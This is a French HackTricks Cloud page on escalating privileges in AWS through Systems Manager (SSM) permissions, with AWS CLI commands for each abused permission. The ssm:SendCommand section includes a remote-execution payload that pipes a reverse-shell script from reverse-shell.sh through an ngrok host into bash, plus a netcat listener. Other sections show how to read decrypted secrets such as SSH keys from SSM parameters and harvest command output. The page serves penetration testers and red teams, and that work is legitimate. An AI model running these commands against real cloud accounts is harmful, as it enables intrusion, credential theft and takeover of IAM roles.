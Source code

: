 # AWS - SSM Privesc

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez** moi sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>

## SSM

Pour plus d'informations sur SSM, consultez :

{% content-ref url="../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/" %}
[aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum](../aws-services/aws-ec2-ebs-elb-ssm-vpc-and-vpn-enum/)
{% endcontent-ref %}

### `ssm:SendCommand`

Un attaquant avec la permission **`ssm:SendCommand`** peut **exécuter des commandes sur des instances** exécutant l'Agent SSM d'Amazon et **compromettre le Rôle IAM** qui s'exécute à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/4.tcp.ngrok.io:16084 | bash"

# If you are in the machine you can capture the reverseshel inside of it
nc -lvnp 4444 #Inside the EC2 instance
aws ssm send-command --instance-ids "$INSTANCE_ID" \
--document-name "AWS-RunShellScript" --output text \
--parameters commands="curl https://reverse-shell.sh/127.0.0.1:4444 | bash"
```
**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM EC2 associés aux instances en cours d'exécution avec des agents SSM actifs.

### `ssm:StartSession`

Un attaquant disposant de la permission **`ssm:StartSession`** peut **démarrer une session de type SSH dans les instances** exécutant l'agent Amazon SSM et **compromettre le rôle IAM** qui y est exécuté.
```bash
# Check for configured instances
aws ssm describe-instance-information
aws ssm describe-sessions --state Active

# Send rev shell command
aws ssm start-session --target "$INSTANCE_ID"
```
{% hint style="danger" %}
Pour démarrer une session, vous devez avoir le **SessionManagerPlugin** installé : [https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html](https://docs.aws.amazon.com/systems-manager/latest/userguide/install-plugin-macos-overview.html)
{% endhint %}

**Impact Potentiel :** Privesc direct aux rôles IAM EC2 attachés aux instances en cours d'exécution avec des agents SSM actifs.

#### Privesc vers ECS

Lorsque les **tâches ECS** sont exécutées avec **`ExecuteCommand` activé**, les utilisateurs disposant des permissions suffisantes peuvent utiliser `ecs execute-command` pour **exécuter une commande** à l'intérieur du conteneur.\
Selon [**la documentation**](https://aws.amazon.com/blogs/containers/new-using-amazon-ecs-exec-access-your-containers-fargate-ec2/), cela est réalisé en créant un canal sécurisé entre l'appareil utilisé pour initier la commande “_exec_“ et le conteneur cible avec SSM Session Manager.\
Par conséquent, les utilisateurs avec `ssm:StartSession` pourront **obtenir un shell à l'intérieur des tâches ECS** avec cette option activée en exécutant simplement :
```bash
aws ssm start-session --target "ecs:CLUSTERNAME_TASKID_RUNTIMEID"
```
![](<../../../.gitbook/assets/image (55).png>)

**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM `ECS` attachés aux tâches en cours avec `ExecuteCommand` activé.

### `ssm:ResumeSession`

Un attaquant disposant de la permission **`ssm:ResumeSession`** peut redémarrer une **session de type SSH dans des instances** exécutant l'agent Amazon SSM avec un état de session SSM **déconnecté** et **compromettre le rôle IAM** qui s'exécute à l'intérieur.
```bash
# Check for configured instances
aws ssm describe-sessions

# Get resume data (you will probably need to do something else with this info to connect)
aws ssm resume-session \
--session-id Mary-Major-07a16060613c408b5
```
**Impact potentiel :** Élévation de privilèges directe vers les rôles IAM EC2 associés aux instances en cours d'exécution avec des agents SSM actifs et des sessions déconnectées.

### `ssm:DescribeParameters`, (`ssm:GetParameter` | `ssm:GetParameters`)

Un attaquant disposant des permissions mentionnées pourra lister les **paramètres SSM** et **les lire en clair**. Dans ces paramètres, on trouve souvent des **informations sensibles** telles que des clés SSH ou des clés API.
```bash
aws ssm describe-parameters
# Suppose that you found a parameter called "id_rsa"
aws ssm get-parameters --names id_rsa --with-decryption
aws ssm get-parameter --name id_rsa --with-decryption
```
**Impact potentiel :** Trouver des informations sensibles à l'intérieur des paramètres.

### `ssm:ListCommands`

Un attaquant avec cette permission peut lister toutes les **commandes** envoyées et, espérons-le, trouver des **informations sensibles** sur celles-ci.
```
aws ssm list-commands
```
**Impact Potentiel :** Trouver des informations sensibles à l'intérieur des lignes de commande.

### `ssm:GetCommandInvocation`, (`ssm:ListCommandInvocations` | `ssm:ListCommands`)

Un attaquant avec ces permissions peut lister toutes les **commandes** envoyées et **lire le résultat** généré en espérant trouver des **informations sensibles** dedans.
```bash
# You can use any of both options to get the command-id and instance id
aws ssm list-commands
aws ssm list-command-invocations

aws ssm get-command-invocation --command-id <cmd_id> --instance-id <i_id>
```
**Impact Potentiel :** Trouver des informations sensibles dans la sortie des lignes de commande.

### Codebuild

Vous pouvez également utiliser SSM pour pénétrer dans un projet Codebuild en cours de construction :

{% content-ref url="aws-codebuild-privesc.md" %}
[aws-codebuild-privesc.md](aws-codebuild-privesc.md)
{% endcontent-ref %}

<details>

<summary><strong>Apprenez le hacking AWS de zéro à héros avec</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Autres moyens de soutenir HackTricks :

* Si vous souhaitez voir votre **entreprise annoncée dans HackTricks** ou **télécharger HackTricks en PDF**, consultez les [**PLANS D'ABONNEMENT**](https://github.com/sponsors/carlospolop)!
* Obtenez le [**merchandising officiel PEASS & HackTricks**](https://peass.creator-spring.com)
* Découvrez [**La Famille PEASS**](https://opensea.io/collection/the-peass-family), notre collection d'[**NFTs**](https://opensea.io/collection/the-peass-family) exclusifs
* **Rejoignez le** 💬 [**groupe Discord**](https://discord.gg/hRep4RUj7f) ou le [**groupe Telegram**](https://t.me/peass) ou **suivez-moi** sur **Twitter** 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)**.**
* **Partagez vos astuces de hacking en soumettant des PR aux dépôts github** [**HackTricks**](https://github.com/carlospolop/hacktricks) et [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud).

</details>
